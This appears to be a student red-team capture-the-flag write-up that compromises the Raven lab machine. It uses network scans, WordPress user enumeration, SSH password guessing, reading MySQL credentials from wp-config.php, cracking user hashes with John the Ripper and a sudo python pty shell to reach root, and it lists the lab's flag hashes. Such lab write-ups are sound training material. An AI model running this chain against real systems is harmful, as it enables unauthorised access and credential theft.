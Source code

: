 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
First, run `netdiscover -r 192.168.1.255/16`. This shows all of the machines on the network:

![netdiscover](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/netdiscover_picture_redteam.jpg)

After reconnaissance, http://192.168.1.110 is found to be a wordpress site. This is our target.

![Wordpress](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/wordpress_website_image_redteam.jpg)

Nmap scan `sudo nmap 192.168.1.110` results reveal the below services and OS details:

![nmap](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/nmap_scan_redteam.jpg)

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH, port 22
  - HTTP, port 80
  - RPC Bind, port 111
  - Netbios SSN, port 139
  - Microsoft-DS, port 445

Next, a vulnerability scan reveals many exploit options with the open ports:

`nmap -sV --script vuln 192.168.1.110`

![nmapvulnvid](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/nmapvulnscan1.jpg)

A video of the entire output from the vulnerability scan can be seen here: https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/nmap_vulnerability_scan_redteam.mp4

This nmap scan revealed many more vulnerabilities associated with the wordpress site, however only a few exploits were necessary to find the flags:

| Vulnerability | CVE | Port Used |   Description   | Severity|Link for more information|
|---|---|---|---|---|---|
| Open SSH | CVE-2015-5600  |  SSH  | Unrestricted access allows brute force attacks and high CPU usage (Denial of Service)  |CVSS v2 Score 8.5 "High" but awaiting reevaluation  | https://nvd.nist.gov/vuln/detail/CVE-2015-5600  |
| Python Privileges |   | SSH  | User steven had privileges to run python. This is exploitable using a python bash shell (PTY Shell) to escalate steven's privileges to root | High  | https://docs.python.org/2/library/pty.html  |
| Weak Passwords and Unsalted Password Hashes |   | SSH and HTTP | Using weak passwords that are unsalted and breakable with software like John the Ripper gives easy access to external parties. | High  |  https://github.com/openwall/john |
| Username Enumeration Not Disabled | | SSH | WPScan was able to determine usernames through a brute force scan |High| |
|MySQL Access| | SSH | Access to MYSQL allowed the attackers to view the database and directory content. SQL Injections have potential to execute SQL commands that create, retrieve, update, and delete data in the database. |High| |


Using wpscan against the target-- `wpscan --url http://192.168.1.110/wordpress --enumerate u`, we find two distinct users: 'michael' and 'steven'.

![wpscan1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/wpscan_redteam_1.jpg)
![wpscan2](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/wpscan_redteam_2.jpg)


### Exploitation
Now that ssh is open and we have enumerated users, we can try to access the target by brute force.  This can be done using a brute force application like WPScan (Example: `wpscan --url http://test.local/ --passwords passwords.txt`), but fortunately, we guessed the password on the third attempt. Running `ssh michael@192.168.1.110` and the password "michael" granted access to the target.

![ssh](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/SSH_as_Michael_redteam.jpg)

Directed to the config file for wordpress, we located and viewed wp-config.php file at /var/www/html.  

![configfind](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/Finding_wpconfig_redteam.jpg)

On the way to that file, the second flag was found:

![flag2](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/Flag2_redteam.jpg)

and using `grep -R ./ -e flag*` found the first flag:

![flag1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/flag1_Redteam.jpg)

Running `nano wp-config.php` revealed:

![wpconfig1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/WPConfig1_redteam.jpg)

Here we see the credentials for the user "root" with the password of "R@v3nSecurity"

Next, run `mysql -u root -p` and type in R@v3nSecurity as the password when prompted. This opens a MySQL session.

![sql1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/mysql_1_redteam.jpg)

Then checking what databases are available, run `show databases;`

![sql2](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/mysql_2_redteam.jpg)

Then selecting wordpress as the database to use, run `use wordpress;`

Run `show tables;` to see data we can inspect to try to find the flags.

![sql3](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/mysql_3_redteam.jpg)

Here, we can inspect the data inside these tables using `select * from <table name>;`. By doing this and inspecting several tables another 2 flags (flags 3 and 4) were found:

`select * wp_posts;`:

![flag3](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/flag3_redteam_insidemysqlselectasterixfromwp_posts.jpg)

Inspecting other tables revealed hashed credentials for the users michael and steven:

`select * from wp_users;`

![userhashes](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/mysql_4_hashes_redteam.jpg)

Using the hashed credentials saved to a .txt file and running that file through John the Ripper revealed the password for the user, "steven".

![johntheripper](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/JohnCrackedHash_and_Ssh_as_root_redteam.jpg)

Then sign in as steven using ssh and the password cracked by running John:
`ssh steven@192.168.1.110` and enter the password "pink84"

Running `sudo -l` as steven shows the privilege to run python. This can be exploited to escalate to root privileges by running:
`sudo python -c 'import pty;pty.spawn("bin/bash");'` This python code spawns a new bash shell to allow root privileges.

![escalatetoroot](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/Escalate_root_redteam_steven_python.jpg)

Now, with access to the root directory the fourth flag was found, again:

![flag4](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Red_Team_Offensive/Images/flag4_redteam.jpg)


The Red Team was able to penetrate the Raven Security Target Machine and retrieve the following confidential data for the four 'flags':

| Flag  | Hash |
| ------------- | ------------- |
| 1  | b9bbcb33e11b80be759c4e844862482d  |
| 2  | fc3fd58dcdad9ab23faca6e9a36e581c  |
| 3  | afc01ab56b50591e7dccf93122770cd2  |
| 4  | 715dea6c055b9fe3337544932f2941ce  |

